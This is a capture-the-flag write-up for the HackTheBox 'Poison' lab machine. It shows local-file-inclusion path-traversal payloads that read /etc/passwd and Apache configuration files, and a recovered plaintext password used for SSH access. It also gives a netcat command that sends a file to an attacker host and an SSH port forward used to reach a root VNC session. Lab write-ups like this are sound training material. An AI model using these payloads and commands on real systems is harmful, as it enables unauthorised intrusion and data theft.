


# HackTheBox - Poison

### What I Learned

1. Understanding where the root server directory lives is important to enumeration and exploitation
2. Getting a secret.zip file does not mean the end of the CTF

  
<strong>Writeup Summary</strong>

Scan the machine and find a file lookup system. Enumerate the listed files and find a list of additional files. Extract the password from it using shell scripting. Use the new password to get a semi-restricted shell. There is a zipped secrets file. Extract it and unzip it. Check ports and processes. There is a process running that is root level and not normally on linux (Xvnc) listening on port 5801 and 5901.
Create a listener from the kali machine to the target machine and port, then use vncviewer to use the extracted secrets file to to get a root shell. 

 

## Writeup

Scan the machine using nmap
Then scan for all ports

- `nmap -sV -sC -vv -oA nmap/scan 10.129.1.254`

Find that website is vulnerable to LFI php scripts
First query that works is

- Full query in Burp
- `GET /browse.php?file=/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../etc/passwd HTTP/1.1`
- URL for searchbar

  - `/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../etc/passwd`
  - Can also get /etc/fstab

Burp Queries that work

- `GET /browse.php?file=/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../usr/local/etc/apache24/httpd.conf HTTP/1.1`

Info gathered from queries

- ServerRoot "/usr/local"
- User home directories
  #Include etc/apache24/extra/httpd-userdir.conf
- /usr/local/apache2/logs/access_log
- /var/log/httpd-access.log
- `/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../usr/local/etc/apache24/extra/httpd-ssl.conf`
- `/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../var/log/httpd-access.log HTTP/1.1`

Find hash on pwdbackup.txt. Decoded is :
`Charix!2#4%6&8(0`

Ssh into poison using charix:Charix!2#4%6&8(0

Transfer the zip file to Kali
On the target machine run  
`nc -w 5 <KALI_IP> <PORT_NUM> < filename.txt`  
On Kali run  
`nc -lp <PORT_NUM> > filename.txt`

Unzip the secret.zip file

- `7z x -p'Charix!2#4%6&8(0' secret.zip`
- `[|Ֆz!`
- Output is unintelligible

Check what processes are running

- ps -auxw

Find a root process running Xvnc - not normally run
Try to find programs running

- Open processes in a window to search and use regex "/SEARCH"
  - Ps -auxw | less -w
  - A program called vnc is running
  - /usr/local/share/tightvnc/classes -auth /r

Check what ports are listening

- Netstat -an | grep LIST
  - Find 2 localports listening on 127.0.0.1 ports 5801 and 5901

Set up an ssh on the kali machine listening on LOCALHOST:6789 that forwards traffic to port 5901 on the remote ssh charix session's machine

- `ssh -L 6789:127.0.0.1:5901 charix@10.129.216.122`
  Then use the listener port to use vncviewer on the remote port of the target machine and use the secret file password
  - `vncviewer 127.0.0.1:6789 -passwd ./secret`
